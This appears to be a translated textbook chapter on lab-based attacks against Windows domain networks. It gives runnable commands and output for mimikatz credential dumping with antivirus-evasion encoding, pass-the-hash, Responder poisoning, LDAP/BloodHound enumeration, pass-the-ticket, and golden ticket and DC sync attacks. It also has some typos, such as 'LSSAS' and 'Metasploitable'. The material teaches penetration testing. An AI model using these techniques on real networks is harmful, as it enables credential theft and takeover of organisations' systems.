





## **15

**穿越企业 Windows 网络**

*一个低效的病毒会杀死它的宿主。一个聪明的病毒会与宿主同生共死。*

–詹姆斯·洛夫洛克


在本章中，我们将探讨大型企业 Windows 网络的架构，这些网络通常使用一种叫做*域控制器*的服务器来管理和保护网络中的机器。如你所见，如果攻击者能够攻破域控制器，那么网络就属于他们了。

在我们设置了一个与 Windows 域控制器和单台 Windows 桌面相对应的 Linux 环境后，我将演示攻击者如何利用 Windows 设备在许多企业环境中使用的协议。我将首先展示如何直接从 Windows 机器或通过拦截网络流量提取密码哈希值和会话密钥。然后，我将展示如何利用这些会话密钥和密码哈希值，通过利用各种网络协议中的漏洞，访问网络中的其他机器。

我们在这里讨论的过程和协议并非 Windows 系统专用。例如，Kerberos 身份验证协议也在 Linux 中使用。

### **创建 Windows 虚拟实验室**

我们将攻击 Windows 系统，因此必须首先创建一个包含 Windows 机器的虚拟实验室。Windows 是专有的，但微软提供了可以免费下载的试用版本，网址是*[`www.microsoft.com/en-us/evalcenter/evaluate-windows-10-enterprise`](https://www.microsoft.com/en-us/evalcenter/evaluate-windows-10-enterprise)*。下载 ISO 镜像后，在 VirtualBox 中创建一个新虚拟机，就像你在第一章中做的那样。给你的虚拟机分配 32GB 的硬盘空间和 4GB 的 RAM。然后按照默认的安装指引完成安装，确保创建一个具有管理员权限的用户账户。

### **使用 Mimikatz 提取密码哈希值**

在 Windows 上提取哈希值的过程类似于 Linux 上的过程（见第十四章），不同之处在于，我们不是从文件*/etc/shadow*中提取哈希值，而是通过转储*本地安全认证子系统服务（LSSAS）*进程的内存来获取哈希值。LSSAS 进程包含密码哈希值和安全令牌，并管理身份验证和与域控制器通信的过程。

与 Linux 一样，你需要管理员权限才能执行此操作。虽然你可以使用 searchsploit 来查找 Windows 的本地权限提升漏洞，但为了简化起见，我们假设你已经获得了一个具有管理员权限的用户账户。尽管如此，将一份最新的权限提升漏洞清单放在工具箱里，在实际测试或攻击中使用，仍然是一个好习惯。

为了转储凭据，我们将使用*mimikatz*，这是一个包含多个工具的程序，帮助我们从 LSSAS 进程的内存中提取哈希值。你可以通过打开任务管理器（CTRL-ALT-DELETE），右键单击进程，然后选择**创建转储文件**来手动转储进程的内存；然而，mimikatz 自动化了这个过程。

在 Kali Linux 上，你可以在 *[`github.com/gentilkiwi/mimikatz/releases/`](https://github.com/gentilkiwi/mimikatz/releases/)* 下载预编译的可执行文件。

然而，由于该工具非常流行，许多杀毒系统会检测到它，Windows 的签名检测算法会立即删除它。因此，你可能需要混淆字符串和二进制文件。使用 Metasploitable 的`**msfencode**`命令使用 SGN 对可执行文件进行编码，正如在第十章中讨论的那样。你可以通过在 Kali Linux 上运行以下命令来编码 mimikatz 可执行文件：

```
kali@kali:~/Downloads$ msfencode -t exe -x mimikatz.exe -k -o mimikatz_encoded.exe -e x86/

			 shikata_ga_nai -c 3
```

现在你已经有了一个编码版本的 mimikatz，可以在 Windows 机器上下载。我们无法直接从 Kali Linux 虚拟机将编码后的 mimikatz 可执行文件复制到 Windows 虚拟机，因此我们像前几章一样通过网络传输它，通过在 Kali Linux 机器上启动一个 Web 服务器，然后将文件下载到 Windows 机器。首先，在 Kali Linux 上启动一个 Python Web 服务器：

```
kali@kali:~/Downloads$ python3 -m http.server
```

访问服务器并将*mimikatz_encoded.exe*下载到你的 Windows 虚拟机上。现在让我们提取密码哈希值。

记住，你必须具有管理员权限才能提取这些哈希值。为了确认你在 Windows 机器上的帐户是否具有这些权限，可以使用快捷键 Win-X，然后按 A 以管理员权限打开 Power-Shell 控制台。然后，使用命令`**whoami /groups**`查看你的组：

```
PS C:\Windows\system32> whoami /groups

GROUP INFORMATION

-----------------

Group Name                                                    Type             SID

============================================================= ================ ===============

   Everyone                                                      Well-known group S-1-1-0
➊ NT AUTHORITY\Local account and member of Administrators group Well-known group S-1-5-114
```

很好！你已经确认该用户具有管理员权限➊。现在导航到包含 mimikatz 的文件夹，并通过输入以下命令运行它：

```
PS C:\Users\Kali\mimikatz\> .\mimikatz_encoded.exe

  .#####.   mimikatz

.## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)

## / \ ##  /   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )

## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )

  '#####'        > https://pingcastle.com / https://mysmartlogon.com /

mimikatz #
```

调试权限是一种安全策略，允许像 mimikatz 这样的进程将调试器附加到 LSSAS 进程并提取其内存内容。运行以下命令以指示 mimikatz 请求调试权限：

```
mimikatz # privilege::debug
Privilege '20' OK
```

如果 mimikatz 成功获取调试权限，你将看到一个`OK`消息。为了获得最佳效果，请以管理员权限运行 mimikatz 进程；这是因为具有管理员权限的进程也能够获取调试权限。

mimikatz 工具支持多个模块。例如，`sekurlsa`模块允许你从内存中提取哈希值：

```
mimikatz # sekurlsa::logonpasswords

...
Authentication Id : 0 ; 546750 (00000000:000857be)
Session           : Interactive from 1
User Name         : Hacker1
Domain            : DESKTOP-AB3A4NG
Logon Server      : DESKTOP-AB3A4NG
Logon Time        : 2/16/2021 8:17:19 PM
SID               : S-1-5-21

        msv :

         [00000003] Primary

         * Username : Hacker1

         * Domain   : DESKTOP-AB3A4NG

      ➊ * NTLM     : f773c5db7ddebefa4b0dae7ee8c50aea

      ➋ * SHA1     : e68e11be8b70e435c65aef8ba9798ff7775c361e

        tspkg :

         * Username : Hacker1

         * Domain   : DESKTOP-AB3A4NG

      ➌ * Password : trustno1!

        wdigest :

         * Username : Hacker1

         * Domain   : DESKTOP-AB3A4NG

         * Password : (null)

        kerberos :

         * Username : Hacker1

         * Domain   : DESKTOP-AB3A4NG

         * Password : (null)

        ssp :

        credman :

        cloudap :

...
```

注意到 mimikatz 已经提取了密码的 SHA-1 和 Windows NT LAN Manager 哈希值➊ ➋。 在某些情况下，LSSAS 进程还会包含明文密码➌。像 Credential Guard 这样的工具可以帮助保护 LSSAS 进程免受这些凭据转储攻击。然而，即使在这些情况下，mimikatz 仍然可以捕获用户在系统被攻破后输入的凭据。

mimikatz 工具也包含在 Metasploit Framework 中；然而，Metasploit 并不总是拥有最新版本。但你仍然可以通过运行以下命令来导出 Windows 系统上的密码哈希：

```
meterpreter > load mimikatz
meterpreter > mimikatz_command -f sekurlsa::logonpasswords
```

现在你已经拥有了密码哈希，你可以尝试破解它们。或者，你也可以利用这些哈希值通过在 pass-the-hash 攻击中利用 Windows NT LAN Manager 协议来登录到公司网络上的其他机器。

### **使用 NT LAN Manager 传递哈希**

*NT LAN Manager (NTLM)* 是一种 Windows 协议，允许用户使用其密码哈希与网络上的其他机器进行身份验证。图 15-1 展示了用户登录到一台机器并尝试访问服务器上共享的 NTLM 文件夹时发生的情况。


*图 15-1：使用 NTLM 进行身份验证的概览*

在此过程中会交换几个消息。当用户使用用户名和密码登录机器时，机器会存储用户名和密码的哈希值 ➊，然后通常会删除明文密码。当用户想要访问服务器或网络文件夹时，操作系统会将该用户的用户名发送给服务器。服务器回应并发送一个 16 字节的 nonce，称为 *挑战消息*。然后，客户端使用用户的密码哈希对 nonce 进行加密，并将其发送回服务器 ➋。这个加密后的 nonce 通常被称为 *挑战响应*。

然后，服务器将用户名、挑战响应以及挑战消息转发给域控制器。域控制器是一个负责存储用户信息并管理网络安全策略的服务器。一旦域控制器收到挑战响应➌，它会通过查找数据库中的用户密码哈希来验证该响应。然后，它将使用这个哈希值解密挑战响应中的 nonce。如果 nonce 匹配，域控制器将向服务器发送一条消息，告知服务器它已成功认证用户，服务器将授予用户访问权限。

请注意，协议从未使用用户密码的明文版本。这意味着，如果攻击者能够获取到用户密码的哈希值，他们无需破解该哈希即可访问其他机器。他们可以直接使用从机器中提取的哈希值来加密挑战响应并与域控制器进行身份验证。我们称这种攻击为 *pass-the-hash 攻击*。

要执行 pass-the-hash 攻击，使用 mimikatz 加载从 LSSAS 进程中提取的其中一个哈希值：

```
mimikatz # sekurlsa::pth /user:<User> /domain:<Domain> /ntlm:<NTLM Hash>
```

将 `<User>`、`<Domain>` 和 `<NTLM Hash>` 替换为提取的用户名、域和 NTLM 密码哈希值。

现在你可以冒充用户并访问他们的资源。例如，如果我们的虚拟环境中包含另一台 Windows 机器，你可以通过使用 `psexec` 工具在另一台机器上运行 PowerShell 终端来连接并访问它：

```
PS> psexec -i \\<Other machine's IP address> powershell
```

你可以从 Microsoft 免费下载`psexec`。

### **探索公司 Windows 网络**

一旦攻击者进入网络，他们接下来应该做什么？在企业网络中，他们可能通过监听网络流量或查询域控制器来了解网络的设备及相关的安全策略。

大型公司必须管理跨越数千台设备的安全策略，因此它们通常将机器组织成一个层级结构，包含组织单位、域、树和森林。*组织单位 (OU)* 是层级结构中的最低级别，由用户、安全组和计算机的分组组成。系统管理员可以自由选择 OU 的结构。例如，一家大型银行的管理员可能会选择为每个位置创建一个 OU，如弗吉尼亚分行、加利福尼亚分行和佛罗里达分行。在每个 OU 内，管理员可能会创建另外两个 OU，一个用于包含出纳机，另一个用于员工账户。这样的分组允许系统管理员为每个 OU 分配不同的权限。

一组 OU 被称为*域*，这些域按树的结构分为父域和子域。树又被分组成一个森林。在同一树中的域之间建立信任关系，从而允许授权用户在域之间移动。例如，系统管理员可能希望将银行总部的机器与银行分行的机器隔离开来。因此，管理员可能会创建两个独立的域：`company.headquarters` 和 `company.branches`。稍后，如果银行收购了一家已经有域基础设施的小银行，系统管理员可能会通过将收购银行的域设为主银行域 `company.branches` 的子域来连接这些域。

图 15-2 展示了一个组织结构，包括一个森林、两棵树、三个域和七个组织单位 (OU)。



*图 15-2：可视化具有多个域的公司网络结构*

域控制器管理这些域及其安全策略，并运行四个关键服务：*DNS 服务*、*活动目录服务 (ADS)*、*轻量级目录访问协议 (LDAP)* 服务和*Kerberos* 认证服务。我们从查看 DNS 服务开始。

### **攻击 DNS 服务**

DNS 服务是域控制器的关键部分。它允许域中的计算机找到网络上其他计算机的 IP 地址。例如，一个文件服务器可能包含一个共享的网络文件夹，叫做*//Patient Records/*。当用户在文件资源管理器中输入*//PatientRecords/*时，操作系统将与域控制器的 DNS 服务器通信，以找到该文件服务器的 IP 地址。如果 DNS 服务包含*//PatientRecords/*的条目，它将返回相应的 IP 地址。然后，文件资源管理器将尝试连接到该服务器并访问文件（前提是它有权限这么做）。

然而，如果 DNS 查询失败——例如，如果用户输入错误的名称，可能忘记了*s*，而输入了*//PatientRecord/*——操作系统将回退到一个不太安全的协议，称为*链路本地多播名称解析（LLMNR）*，以发现网络中可以响应请求的机器。LLMNR 是一种广播协议，因此网络中的任何机器都可以响应请求。这使得攻击者可以通过恶意信息进行响应，这种攻击被称为*LLMNR 中毒*。图 15-3 展示了 LLMNR 中毒攻击的步骤。



*图 15-3：DNS 失败如何导致不安全的 LLMNR 查询*

受害者生成 DNS 请求，该请求被发送到域控制器 ➊。域控制器的 DNS 服务告诉受害者找不到请求的条目 ➋，于是受害者的机器转而使用 LLMNR 协议。它广播一条消息，询问是否有机器拥有*//PatientRecord/*文件夹 ➌。攻击者将以类似“我可以帮忙，但你需要进行身份验证。请发送给我你的 NTLM 哈希”这样的消息进行回应 ➍。如果受害者的机器响应了该消息，那么你就捕获到了用户的 NTLM 密码哈希。

如果 LLMNR 失败，客户端将回退到不太安全的协议 Netbios 名称服务（NBT-NS）。LLMNR 和 NBT-NS 并不是唯一易受这种类型的中毒攻击的协议。假设攻击者执行了 ARP 欺骗攻击，并伪装成 DNS 服务器。他们随后可以捕获正确 DNS 查询中的 NTLM 哈希值。

你可以使用`Responder`工具执行这些攻击。它允许你恶意响应各种网络协议并捕获相关的哈希值。你可以通过将其 GitHub 仓库克隆到你的 Kali Linux 虚拟机来获取`Responder`：

```
kali@kali:~$ git clone https://github.com/lgandx/Responder
```

在你的 Kali Linux 虚拟机上运行`Responder`启动该工具。然后，在 Windows 虚拟机中输入一个虚拟文件夹，比如*//PatientRecords/*：

```
kali@kali:~/Responder$ sudo python3 Responder.py -I eth0 -v

...

[+] Poisoners:

    LLMNR                      [ON]

    NBT-NS                     [ON]

    DNS/MDNS                   [ON]

...

   [+] Listening for events...

   [HTTP] Sending NTLM authentication request to 10.0.1.26

   [HTTP] GET request from: 10.0.1.26        URL: /

   [HTTP] Host             : patientrecord

   [HTTP] NTLMv2 Client   : 10.0.1.26

   [HTTP] NTLMv2 Username : DESKTOP-AB3A4NG\Hacker1
➊ [HTTP] NTLMv2 Hash     : Hacker1::DESKTOP-AB3A4NG:XXXXXXXXXX...........
```

`-I`选项指定了它将监听并响应的接口，`-v`表示生成详细输出。你将看到在攻击过程中捕获的 NTLMv2 哈希值 ➊。现在你可以使用第十二章中讨论的技术来破解该哈希值，或将其用于“传递哈希”攻击。

### **攻击 Active Directory 和 LDAP 服务**

域控制器托管的第二个服务是 Active Directory 服务，这是一个包含域中对象的数据库。这些对象包括用户、安全策略和共享机器，如打印机和桌面。

用户对象包含诸如用户名和密码哈希等信息。安全组对象包含该组所赋予的权限信息，以及列出与该安全组关联的用户的成员属性。通过将所有用户信息存储在一个单一的存储库中，您可以让用户访问多台机器，而无需在这些设备上存储他们的用户名和密码。这在图书馆、银行或公司办公室等地方非常有用，因为用户通常共享机器和打印机。

除了 Windows，其他操作系统也提供了自己的目录服务。这些服务，如 389 目录服务器和 Apple Open Directory，使用自定义的协议和查询。然而，要求操作系统实现每个目录访问协议是不可行的。因此，它们通常实现 LDAP，一个标准协议，设备可以使用该协议与大多数目录服务进行交互。LDAP 服务将 LDAP 风格的查询转换为后端目录服务支持的查询格式。这意味着客户端只需支持 LDAP 协议，因为 LDAP 服务将后端目录服务进行了抽象。

LDAP 协议以 *目录信息树（DIT）* 的形式表示数据。图 15-4 显示了一个示例版本的 *[bank.com](http://bank.com)* 域的 DIT。



*图 15-4：目录信息树*

DIT 的根部是域。值 `dc=bank, dc=com` 是区分名，用于唯一标识树中的一个组件。（在此，`dc` 并不代表域控制器，而是指域组件。可能有些令人困惑，但这是标准符号。）在这里，域 *[bank.com](http://bank.com)* 有两个域组件：*bank* 和 *com*。在域下有两个组织单位（OU）。其中一个代表机器，另一个 OU 代表用户。具有用户 ID Monique 的人的区分名是 `dc=bank, dc=com, ou=Staff, ou=Manager, uid=Monique`。通过这种方式，除了唯一标识一个组件外，区分名还标识了树中对象的路径。

#### ***编写 LDAP 查询客户端***

LDAP 可以成为访问域控制器的有用工具。如果我们能够访问存储所有用户凭据并且可以创建用户帐户的域控制器，就能够控制网络。如果我们控制了域控制器，就可以创建自己的管理员帐户并登录到任何我们想要的机器。

然而，我们从网络上的某台机器提取的凭据可能未必能够授权我们访问域控制器。相反，我们需要从一台机器跳到另一台机器，提取更多的特权凭据，直到找到能给我们所需访问权限的凭据。为了高效完成此操作，你需要了解你攻击的网络结构。

攻击者可以通过查询域控制器上的 LDAP 服务器来了解公司网络的结构。例如，攻击者可能会执行类似“网络上有多少台机器？”、“有多少个用户？”或“哪些用户是管理员组的成员？”这样的查询。通过执行这些查询，攻击者可以绘制网络图，并发现通向域控制器的路径，这一过程被称为*枚举*。

让我们通过编写一个 Python 程序来使 LDAP 查询和枚举的概念更加具体。这个 LDAP 客户端，我们将其命名为*info_probe.py*，将检索网络中所有用户的列表。我们将使用`ldap3` Python 库来开发这个客户端，因此请使用`pip3`安装它：

```
kali@kali:~$ pip3 install ldap3
```

接下来，我们需要使用名为绑定的过程来连接 LDAP 服务。LDAP 支持三种类型的绑定：*匿名绑定*、*密码绑定*和*简单认证和安全层（SASL）绑定*。匿名绑定不需要任何身份验证，因此我们首先进行匿名绑定，然后修改程序进行密码绑定，这样我们就可以使用用户名和密码进行身份验证。稍后在本章中，当我们讨论 Kerberos 协议时，将介绍 SASL 绑定。

为了避免自己搭建 LDAP 服务器，我们将与一个名为*ipa.demo1.freeipa.org*的公共演示服务器进行交互，网址为*[`www.freeipa.org/page/Demo`](https://www.freeipa.org/page/Demo)*。另外，你可以下载 FreeIPA 虚拟机并将其添加到你的环境中。FreeIPA 虚拟机是 Linux 版本的 Windows 域控制器，我们将把它作为我们环境中的域控制器。基于 Web 的选项更容易设置，但在测试过程中，你的 DIT 可能会发生变化，因为其他人也能访问该服务器。无论如何，我将在示例中使用基于 Web 的选项：

```
from ldap3 import Server, Connection, ALL
server = Server(host = 'ipa.demo1.freeipa.org', get_info=ALL)
Connection(server).bind()
print(server.info)
```

我们首先创建一个包含目标服务器信息的服务器对象。我们将`get_info`选项设置为`ALL`，这样一旦连接成功，我们就能读取尽可能多的服务器信息。然后，我们将创建一个连接对象并调用`bind`方法。这个 LDAP 连接使用匿名绑定。如果我们的匿名绑定成功，我们将打印关于服务器的信息。

运行*info_probe.py*检查我们是否能够连接到服务器：

```
kali@kali:~$ python3 info_probe.py
DSA info (from DSE):

  Supported LDAP versions: 2, 3

  Naming contexts:

    cn=changelog

    dc=demo1,dc=freeipa,dc=org

    o=ipaca

      ...
```

如果你能够成功连接到服务器，你将看到这里显示的输出。该服务器信息将包含许多详细内容，包括 LDAP 服务器的版本。

现在，让我们查询 LDAP 服务器，了解更多关于网络的信息。大多数 LDAP 服务器会阻止未经授权的用户提交查询，因此我们需要修改*info_probe.py*，使其能够通过 LDAP 服务进行身份验证。我们将使用密码绑定身份验证方法连接到 LDAP 服务器，并搜索域中的所有用户。LDAP 服务器有三个默认帐户，每个帐户的密码是**Secret123**。然而，你也可以使用从内存中提取的 NTLM 密码哈希进行身份验证：

```
from ldap3 import Server, Connection, ALL, SUBTREE
server = Server(host = 'ipa.demo1.freeipa.org', use_ssl=True)
conn = conn = Connection(server, user='uid=admin,cn=users,cn=accounts,dc=demo1

			 ,dc=freeipa,dc=org', password="Secret123", auto_bind=True)
conn.search(search_base = 'dc=demo1,dc=freeipa,dc=org'

    ,search_filter = '(objectClass=person)'

    ,attributes=['cn', 'givenName', 'mail']

    ,search_scope = SUBTREE)
print(conn.entries)
```

首先，我们连接到 LDAP 服务器，提供用户的区别名作为`user`参数。注意，该名称指定了从叶节点到 DIT 根节点的路径。我们还将`auto_bind`选项设置为 true。`ldap3`库将在初始化连接时执行绑定操作，这样我们就省去了额外的一行代码。接下来，我们指定搜索查询。`search_base`参数表示我们 DIT 中的起始节点，我们将其设置为根节点。第二个选项允许你筛选结果。我们只包括 person 对象。筛选器还可以包括逻辑运算符。例如，以下筛选器返回具有以`Test:`开头属性的 person 对象：`& (objectClass=person) (cn=Test*)`。注意，逻辑运算符位于条件之前。这个结构可能与你见过的其他查询语言不同。最后，我们指定要包含的属性。

运行 Python 程序：

```
$ python3 info_probe.py

[DN: uid=admin,cn=users,cn=accounts,dc=demo1,dc=freeipa,dc=org - STATUS:.

    cn: Administrator

, DN: uid=manager,cn=users,cn=accounts,dc=demo1,dc=freeipa,dc=org - STATUS:

    cn: Test Manager

    givenName: Test

    mail: manager@demo1.freeipa.org

, DN: uid=employee,cn=users,cn=accounts,dc=demo1,dc=freeipa,dc=org - STATUS:

			 Read

    cn: Test Employee

    givenName: Test

    mail: employee@demo1.freeipa.org

, DN: uid=helpdesk,cn=users,cn=accounts,dc=demo1,dc=freeipa,dc=org - STATUS:

			 Read

    cn: Test Helpdesk

    givenName: Test

    mail: helpdesk@demo1.freeipa.org

]
```

在这里，我们看到 DIT 中包含的四个用户。由于 LDAP 服务器是开放的，你和其他用户都可以修改树结构。当你运行查询时，可能会注意到一些额外的条目。

通过登录到 *[`ipa.demo1.freeipa.org/`](https://ipa.demo1.freeipa.org/)*，使用用户名**admin**和密码**Secret123**查看网络管理员面板。这是系统管理员所看到的面板。

#### ***使用 SharpHound 和 BloodHound 进行 LDAP 枚举***

各种工具可以自动化枚举过程。*Sharphound* 通过运行 LDAP 查询、监听网络流量并使用 Windows API 从网络中的计算机提取信息来收集网络信息。你可以从 *[`github.com/BloodHoundAD/SharpHound3/`](https://github.com/BloodHoundAD/SharpHound3/)* 下载它。SharpHound 收集完信息后，会输出几个 JSON 文件，包含关于网络中用户、组和机器的信息。然后，我们可以将这些文件从被攻陷的机器复制到 Kali Linux 虚拟机中，并将它们输入到*BloodHound*可视化工具中。BloodHound 允许攻击者查询数据并可视化他们可以用来攻陷 DC 的路径（机器列表）。图 15-5 展示了一个路径的示意图。



*图 15-5：可能路径的示意图*

假设机器 1 是你已经妥协的机器。用户 Jane Jackson 已登录此机器并有一个活跃的会话。我们还可以看到，Jane 是 Office Admin 组的成员，该组拥有文件服务器的管理员访问权限。这意味着我们可以使用 Jane 的凭据访问文件服务器。我们还可以看到 John Johnson 已经登录文件服务器并有一个活跃的会话，且 John 具有域控制器的管理员访问权限。

这意味着我们可以通过提取 Jane 的凭据并在传递哈希攻击中使用它们来妥协域控制器，从而获得文件服务器的管理员访问权限。一旦我们获得文件服务器的管理员权限，就可以提取 John 的凭据并使用它们访问域控制器。

更多示例请参阅 Bloodhound 的文档：*[`bloodhound.readthedocs.io/en/latest/data-analysis/bloodhound-gui.html`](https://bloodhound.readthedocs.io/en/latest/data-analysis/bloodhound-gui.html)*。你也可以使用其他工具，如 windapsearch，来查询域控制器上的 Active Directory 服务。

### **攻击 Kerberos**

Kerberos 协议是 NTLM 协议的安全替代方案。为了验证想要访问网络资源的用户，Kerberos 依赖于两个服务：认证服务器和票据授予服务。图 15-6 展示了用户请求访问文件服务器时交换的 Kerberos 消息概览。



*图 15-6：Kerberos 身份验证过程*

客户端首先发起与认证服务器的连接，并请求访问票据授予服务 ➊。此明文消息包含用户 ID、服务 ID、用户 IP 地址以及请求的票据授予票的生命周期。认证服务器将查找 Active Directory 服务中的用户，如果用户存在，认证服务器将检索该用户的密码哈希。然后，用户的密码哈希将作为对称密钥来加密认证服务器的响应。认证服务器和用户都拥有此哈希的副本，因此只有用户和认证服务器才能解密该消息。

接下来，认证服务器发送两条消息，一条响应和一张票据授予票据 ➋。这两条消息都被加密。响应消息使用用户的密码哈希加密，包含服务 ID、时间戳、会话的生命周期和用户将用来加密与票据授予服务通信的会话密钥。这条消息相当于在说：“你已经通过身份验证。如果你真的是该用户，你将能够解密这条消息并提取你可以用来与票据授予服务安全通信的会话密钥。”第二条消息（票据授予票据）是用票据授予服务的密钥加密的，这意味着只有票据授予服务可以解密它。消息中包含用户的 ID、票据授予服务的 ID、时间、用户的 IP 地址、票据授予票据的生命周期以及与客户端共享的相同会话密钥。这张票据相当于认证服务器在说：“把这张票据展示给票据授予服务，证明你有权限与它进行对话。服务会知道如何处理它。”

用户使用其密码哈希解密第一条消息并提取会话密钥 ➌。然后，用户使用会话密钥加密他们的用户 ID 和密码哈希。这被称为用户认证器。用户将附加票据授予票据作为证明，表明其有权限访问票据授予服务，同时还会附上包括他们希望访问的服务（例如文件服务）和票据请求生命周期的明文请求。

票据授予服务通过使用票据授予服务的密钥 ➍ 解密票据授予票据来验证它。票据授予服务然后从解密后的票据中提取会话密钥，并使用它来解密用户认证器消息并提取用户 ID。接着，它将检查活动目录服务，查看用户是否有权限访问该服务。如果用户有权限，票据授予服务将生成两条消息：一条响应和一张服务票据。响应消息使用会话密钥加密，包含服务 ID（例如文件服务器的 ID）、时间戳、生命周期以及一个新的文件系统会话密钥，该密钥将用于加密文件服务器和用户之间的通信。第二条消息是服务票据，它使用文件服务器的密钥加密，以确保只有文件服务器可以解密它。服务票据包含用户 ID、服务 ID、时间戳和新的文件系统会话密钥。此服务票据唯一地为该用户提供对特定服务的访问权限。

用户解密响应消息，提取文件服务器的会话密钥，并使用此密钥加密请求访问文件服务器的消息。用户随后将请求和服务票据发送给文件服务器。最后，服务器将按照与票据授予服务相同的流程进行处理➏。它将首先使用其秘密密钥解密服务票据并提取会话密钥，然后使用该密钥解密用户的请求消息。如果文件服务器能够解密消息，它将认证用户并发送使用会话密钥加密的访问授权消息。

Kerberos 安全吗？请注意，攻击者不需要拥有用户的密码哈希值就能请求票据授予票据。假设攻击者将用户 ID 发送到认证服务器，服务器将响应一个包含加密会话密钥的票据授予票据。攻击者然后可以使用 Hashcat 进行字典攻击来破解该票据。

为了防止这些攻击，现代 Kerberos 实现要求请求包括使用用户密码哈希加密的时间戳。我们将这一额外检查称为*预认证（pre-auth）*。但即使存在预认证，您仍然可以使用 Metasploit 模块通过执行字典攻击来收集 Kerberos 用户名：

```
msf6 > use Auxiliary/gather/Kerberos_enumusers
```

`Kerberos_enumuser`模块将使用字典中的用户 ID 执行第一个认证步骤，然后报告使用情况的信息；例如，用户是否存在，以及是否需要预认证。

现在我已经讨论了 Kerberos 协议，让我们看看其他攻击方式。

#### ***传票攻击***

在*传票攻击*中，黑客设法获取了一个服务票据，利用该票据访问机器上的服务。为此，他们从本地机器上的 LSSAS 进程中提取认证服务器发送的响应、票据授予票据以及用户的密码哈希。攻击者使用用户的密码哈希解密响应并提取会话密钥，然后使用该密钥伪造新的服务票据请求。一旦攻击者获得新的服务票据，他们就可以访问其他服务或机器。像 mimikatz 这样的工具允许您执行这些类型的攻击。使用您编码后的 mimikatz 版本从 LSSAS 进程中提取票据：

```
PS> mimikatz_encoded.exe "privilege::debug" "sekurlsa::tickets /export"
```

Mimikatz 将票据信息输出到终端。它还将每个票据写入带有*.kirbi*扩展名的单独文件。这些文件将被放置在与 mimikatz 可执行文件相同的目录中。选择与您要访问的系统相关的票据，并通过运行以下命令将其加载到 LSSAS 进程的内存中：

```
PS> mimikatz_encode.exe kerberos::ptt "<Path to ticket file>.kirbi"
```

加载后，您应该能够访问系统。

#### ***金票和 DC 同步攻击***

虽然我们在讨论 Kerberos 协议时没有展示过，但所有消息都是使用与*krbtgt*账户关联的密码哈希进行签名的，krbtgt 是所有域控制器上的一个特殊账户，具有长且难以破解的密码，并且是自动生成的。然而，假设攻击者能够攻破域控制器并窃取 krbtgt 账户的密码哈希，在这种情况下，他们可以通过使用 krbtgt 账户的哈希来伪造任何票证。攻击者随后可以创建他们可以在攻破系统多年后仍然使用的票证。这就是为什么如果怀疑发生了攻击，重置 krbtgt 账户的密码非常重要的原因。因为这种攻击允许攻击者在任何时候伪造任何票证，所以它被称为*金票*攻击。

你需要 krbtgt 账户的密码哈希值来创建一个金票。但是，如何在不直接攻破域控制器的情况下获取 krbtgt 密码哈希值呢？当网络管理员将新的域控制器添加到网络时，新的域控制器会要求现有的域控制器发送它们的数据库副本。这个请求允许域控制器保持同步。然而，这些数据库也包含密码哈希值，包括 krbtgt 账户的密码哈希值。通过假装是正在执行同步操作的域控制器，攻击者可以窃取 krbtgt 账户的密码哈希值。我们称这种攻击为*DC 同步*攻击。

